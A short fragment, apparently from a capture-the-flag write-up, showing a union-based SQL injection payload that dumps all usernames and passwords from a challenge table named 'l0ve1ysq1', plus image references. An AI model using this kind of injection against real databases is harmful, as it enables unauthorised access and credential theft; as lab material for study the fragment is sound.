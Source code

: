 ```
-admin' union select 1,group_concat(username),group_concat(password) from  l0ve1ysq1 # 
```

![在这里插入图片描述](img/dd2cdb1d93d462fe54d43de36ff608e6.png)